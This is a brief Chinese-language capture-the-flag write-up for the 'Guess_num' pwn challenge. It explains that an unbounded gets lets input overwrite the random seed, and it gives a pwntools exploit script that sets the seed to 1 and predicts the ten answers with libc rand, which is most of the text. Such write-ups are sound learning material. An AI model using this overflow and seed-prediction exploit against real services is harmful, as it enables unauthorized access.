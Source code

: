 ```yaml
---
layout: post
title: Guess_num
category: pwn
tags: [pwn]
---
```

## Guess_num

题目不难，但是学到了个新姿势 **cdll.LoadLibrar** ，可以用它来加载dll或者libc。

### ida分析

![img](/assets/images/2019-7-2-Guess_num/guess_num_1.png)

名字v11和seed相差32(0x30-0x10)，而gets又没有限制，故可以将seed覆盖。

### Exp
```python
from pwn import *
from ctypes import *  
 
#p = remote('','')
p = process('./guess_num') 
elf = ELF('./guess_num')
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
 
payload = 'A'*32  
payload += p64(1)   #覆盖种子为1
p.recvuntil('name:')
p.sendline(payload)  
 
libc.srand(1)  #本地设置种子为一

for i in range(10):
        num = str(libc.rand()%6+1)
        p.recvuntil('number:')
        p.sendline(num)
 
p.interactive()

```